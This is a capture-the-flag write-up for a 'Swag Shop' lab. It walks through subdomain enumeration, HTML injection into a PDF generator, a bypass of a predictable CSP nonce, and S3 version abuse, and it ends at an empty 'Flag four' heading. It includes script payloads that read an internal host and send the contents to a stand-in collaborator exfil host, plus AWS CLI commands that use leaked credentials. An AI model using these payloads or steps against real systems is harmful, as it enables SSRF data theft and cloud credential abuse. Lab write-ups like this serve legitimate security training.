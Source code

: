 # Hubs - Swag Shop Writeup
As most labs created by Adam we start with enumeration to identify potential subdomains that might be part of this challenge.

## Enumeration
After bruteforcing vhosts (either via ffuf or burp) we obtaint he following list.

**UUID.ctfio.com**

This is the main application where users can claim and place orders for swag. The UUID is unique for each deployed instance.

**env.UUID.ctfio.com**

This host seems not publicly accessible as it displays the message below.

*"error":"Access from this IP address is forbidden!"*

![image](https://github.com/tarifas90/CTF-Writeups-2023/assets/55701068/feed5f13-5783-4836-94e9-61579f82ae34)

When encountering such error messages it is expected to find another vulnerability such as SSRF that will allow access to the page's content. Therefore we should keep this in mind.

**shipping.UUID.ctfio.com**

The application hosted here appears to be the place where the orders placed by users can be managed. We can not login with weak/easy to guess credentials and we are able to identify a /register endpoint.
However the following message is displayed.

*Registration is not enabled on this server*

![image](https://github.com/tarifas90/CTF-Writeups-2023/assets/55701068/725dfb26-426e-4c1a-b006-e616bc6ba0b4)

**NOTE:** It is always valuable to fuzz furhter down for vhosts/subdomains such as XXX.discovered-subdomain.UUID.ctfio.com

**dev.shipping.UUID.ctfio.com**

We identify a different subdomain for shipping, however in this case we see a message mentioning that the server is not enabled. We take another note that there shoudl be a functionality that should allow us to enbale this application.

![image](https://github.com/tarifas90/CTF-Writeups-2023/assets/55701068/fcb82348-25d5-480f-9798-fda94d37e7fc)

Performing further enumeration such as fuzzing for endpoints and parameters on the identified subdomains does not wield any valueable results. 

## Flag one

Attempting to test the main application, when creating an order, the application allows users to also generate the PDF of the created order.
Checking the generated PDF, we identify that it is created via Skia/PDF m115. Normally such functionalities indicate that if we are able to inject some HTML code within the generated PDF we might be able to take advantage of the headless browser used for its creation and achieve SSRF attacks etc.

Using the above hypothesis eventually we are able to achieve HTML injection within the generated PDFs with a code like the following being placed in the address field

`</textarea><h1>HTML Injected</h1>`

The submited request is the following

![image](https://github.com/tarifas90/CTF-Writeups-2023/assets/55701068/eed42e0d-ec0c-495a-96f9-0ba1eb308c9d)

Once the PDF is generated we can see that we have successfully achieved HTML injection, as our payload is rendered within the PDF document.

![image](https://github.com/tarifas90/CTF-Writeups-2023/assets/55701068/74ea672c-017e-4176-93ba-e9fb63504b09)

Our next goal now would be to perform an attack that would allow us to see if we can access the content of the `env` host.

However, observing the response headers from the previous screenshost we can notice that the web application implements a CSP policy.

```http
Content-Security-Policy: img-src 'self';script-src 'nonce-1692256624' 'self' ajax.googleapis.com maxcdn.bootstrapcdn.com;frame-src 'none';script-src-attr 'none'
```

Therefore this limits our options for SSRF as we can't use stuff such as iframes. By reviewing the CSP policy we notice that for **script-src** a nonce is used. The nonce however appears to be sort and weak, as it is a predictable value. 
In more detail the nonce appears to be the epoch time. This means that it can be predictable and therefore easy to submit a value that will allow script execution.

Therefore, we now have a target and a potential bypass on the implemented protections. Subsequently we can craft an attack payload to confirm if the bot can access the **env** subdomain and read its contents.

The following code can be used.

```javacript
<script nonce='1692123412'>
var url = "http://env.UUID.ctfio.com";
var attacker = "http://COLLAB_ID.oastify.com/exfil";
var xhr = new XMLHttpRequest();
xhr.onreadystatechange = function() {
if (xhr.readyState == XMLHttpRequest.DONE) {
fetch(attacker + "?" + encodeURI(btoa(xhr.responseText)))
}
}
xhr.open('GET', url, true);
xhr.send(null);
</script>
```

The code above will attempt to read the contents of the **env** domain including a nonce for the script that should be equal to the epoch time the server has during its execution. Once the content is read it will be send to our collaborator server.

To ensure that the nonce value will be correct, we can include additional nonces each one incremented by one. Example below

```javascript
</textarea>
<script nonce='1692123412'>
var url = "http://env.UUID.ctfio.com";
var attacker = "http://COLLAB_ID.oastify.com/exfil";
var xhr = new XMLHttpRequest();
xhr.onreadystatechange = function() {
if (xhr.readyState == XMLHttpRequest.DONE) {
fetch(attacker + "?" + encodeURI(btoa(xhr.responseText)))
}
}
xhr.open('GET', url, true);
xhr.send(null);
</script>
<script nonce='1692123413'>

....


<script nonce='1692123417'>
var url = "http://env.UUID.ctfio.com";
var attacker = "http://COLLAB_ID.oastify.com/exfil";
var xhr = new XMLHttpRequest();
xhr.onreadystatechange = function() {
if (xhr.readyState == XMLHttpRequest.DONE) {
fetch(attacker + "?" + encodeURI(btoa(xhr.responseText)))
}
}
xhr.open('GET', url, true);
xhr.send(null);
</script>
```
Once the PDF is generated we’ll receive a request in Burp collaborator and the contents of the **env.UUID.ctfio.com** website are returned base64 encoded. The first flag will be within the content of that page.

![1](https://github.com/tarifas90/CTF-Writeups-2023/assets/55701068/8646cf9b-093b-405b-ba42-803c7e6246ee)

## Flag two

Apparently now we have obtained a set of AWS credentials and a bucket name.

We can use the aws cli to connect to the bucket with the credentials and see what is hosted there. We can run the following commands

```console
aws configure //Set the credentials obtained above
aws s3 ls s3://ctfswagshop
aws s3 cp s3://ctfswagshop/flag.txt .
```

![image](https://github.com/tarifas90/CTF-Writeups-2023/assets/55701068/38757fbb-0268-4ca2-9a61-1dbc37dd4d1e)

We therefore obtain the second flag.

## Flag three

After obtaining the flag above, there was not much to look into as the keys.txt file was empty.
Checking for past versions of the S3 bucket via the command below will give an indication that the keys.txt file used to server some content.

```console
aws s3api list-object-versions --bucket ctfswagshop
```

![image](https://github.com/tarifas90/CTF-Writeups-2023/assets/55701068/962e6e5f-122e-44e9-95bc-9322a8e764d0)

We can then try to obtain the keys file via the following commands and eventually we will get the third flag

```console
aws s3api get-object --bucket ctfswagshop --version-id nt_d96XI4vefGPrnjRM_JcICfjm.V1zb --key keys.txt keys.txt
```

![2](https://github.com/tarifas90/CTF-Writeups-2023/assets/55701068/2c7af509-d890-4a04-926c-a7b1e87b90fe)

## Flag four




